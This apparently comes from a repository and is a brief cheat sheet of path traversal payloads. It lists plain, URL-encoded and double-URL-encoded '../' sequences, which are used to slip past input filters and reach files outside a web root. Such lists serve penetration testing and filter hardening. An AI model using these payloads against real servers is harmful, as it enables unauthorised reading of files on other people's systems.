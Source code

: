 # Path traversal cheat sheet

1. Plain
../../../

2. Url Encoded
%2E%2E%2F%2E%2E%2F
..%2F..%2F
%2E%2E/%2E%2E/

3. Double Url Encoded
%252E%252E%252F
..%252F..%252F
%252E%252E/%252E%252E/